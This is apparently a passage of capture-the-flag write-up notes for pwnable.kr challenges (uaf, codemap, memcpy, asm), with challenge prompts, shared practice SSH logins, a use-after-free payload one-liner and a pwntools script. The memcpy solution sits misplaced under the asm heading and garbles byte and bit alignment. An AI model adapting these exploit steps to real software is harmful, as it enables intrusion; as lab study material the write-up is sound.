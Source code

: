 If some more attributes be added to class, it will not give you the freed block if you apply for 8.
```
python -c 'print ("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/ihcuaf
./uaf 24 /tmp/ihcuaf
3 2 2 1
cat flag
```


## 0x11 codemap
```
I have a binary that has a lot information inside heap.
How fast can you reverse-engineer this?
(hint: http://codemap.kr)
(hint2: see the information inside EAX,EBX when 0x403E65 is executed)

ps. sorry if you don't have IDA Pro.
download: http://pwnable.kr/bin/codemap.exe


ssh codemap@pwnable.kr -p2222 (pw:guest)
```


## 0x12 memcpy
```
Are you tired of hacking?, take some rest here.
Just help me out with my small experiment regarding memcpy performance.
after that, flag is yours.

http://pwnable.kr/bin/memcpy.c

ssh memcpy@pwnable.kr -p2222 (pw:guest)
```

## 0x13 asm
```
Mommy! I think I know how to make shellcodes

ssh asm@pwnable.kr -p2222 (pw: guest)
```
Basically the ASM operation need 16 byte alignment whereas 32-bit guarantees only 8-bit alignment by default, so we need to send proper chunk sizes for copying.
```
from pwn import *
import sys

r = remote("localhost", 9022)
r.sendline("8")
r.sendline("16")
r.sendline("32")
r.sendline("72")
r.sendline("136")
r.sendline("268")
r.sendline("600")
r.sendline("1208")
r.sendline("2408")
r.sendline("4808")
print r.recvall()
```
```
thanks for helping my experiment!
flag : ----- erased in this source code -----
```
